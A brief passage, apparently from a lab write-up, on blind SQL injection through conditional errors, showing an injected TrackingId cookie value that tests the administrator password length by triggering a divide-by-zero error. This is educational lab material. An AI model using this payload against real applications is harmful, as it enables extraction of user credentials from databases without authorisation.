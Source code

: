 ![length](/docs/assets/images/portswigger/sqli/blindsqli/conditionalerrors/ce11.png)

The password length condition can now be modified in increasing increments and tested until the web application no longer generates an error. 

`TrackingId=45o4t4APu4sxjqmv'||(SELECT CASE WHEN LENGTH(password)>10 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 

